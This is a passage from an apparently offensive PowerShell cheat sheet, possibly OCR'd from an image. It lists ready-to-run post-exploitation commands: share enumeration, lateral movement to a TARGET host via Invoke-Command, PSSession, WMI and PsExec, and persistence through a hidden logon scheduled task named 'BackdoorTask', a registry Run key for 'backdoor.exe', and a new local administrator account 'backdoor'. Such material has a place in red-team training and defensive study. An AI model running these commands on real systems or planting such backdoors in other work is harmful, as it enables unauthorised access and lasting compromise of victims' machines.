 #### **Get Network Shares**
```powershell
Get-SmbShare
```

---

### **5. Lateral Movement**

#### **Execute Command on a Remote Machine**
```powershell
Invoke-Command -ComputerName TARGET -ScriptBlock { Get-Process }
```

#### **Copy Files to a Remote Machine**
```powershell
Copy-Item -Path "C:\path\to\file.txt" -Destination "\\TARGET\C$\path\to\destination"
```

#### **Invoke PowerShell Remoting**
```powershell
Enter-PSSession -ComputerName TARGET
```

#### **WMI for Remote Command Execution**
```powershell
Invoke-WmiMethod -Class Win32_Process -Name Create -ArgumentList "cmd.exe /c whoami" -ComputerName TARGET
```

#### **Run Command on Remote System (PSExec)**
```powershell
Invoke-Expression -Command "psexec.exe \\TARGET cmd.exe /c whoami"
```

---

### **6. Persistence**

#### **Create a Scheduled Task**
```powershell
$action = New-ScheduledTaskAction -Execute 'powershell.exe' -Argument '-WindowStyle Hidden -Command "Get-Process"'
$trigger = New-ScheduledTaskTrigger -AtLogOn
Register-ScheduledTask -Action $action -Trigger $trigger -TaskName "BackdoorTask" -Description "Persistent Backdoor"
```

#### **Add a Registry Key for Persistence**
```powershell
Set-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "MyBackdoor" -Value "C:\backdoor.exe"
```

#### **Create a New Local Admin User**
```powershell
net user backdoor Password123! /add
net localgroup administrators backdoor /add
```

---